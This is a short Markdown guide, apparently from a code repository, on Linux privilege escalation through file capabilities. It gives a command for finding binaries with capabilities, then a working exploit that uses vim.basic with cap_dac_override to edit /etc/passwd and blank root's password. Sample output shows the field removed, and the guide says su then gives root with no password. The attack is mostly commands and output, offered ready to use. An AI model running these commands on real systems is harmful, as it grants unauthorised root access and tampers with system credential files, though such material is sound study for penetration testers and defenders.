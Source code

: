 # Permissions-based Privilege Escalation
`The Guide`

- [Capabilities](#capabilities)

## Capabilities
Enumerating Capabilities
```bash
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```
Exploiting Capabilities
```bash
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```
```bash
echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```
> Now, we can see that the x in that line is gone, which means that we can use the command su to log in as root without being asked for the password.
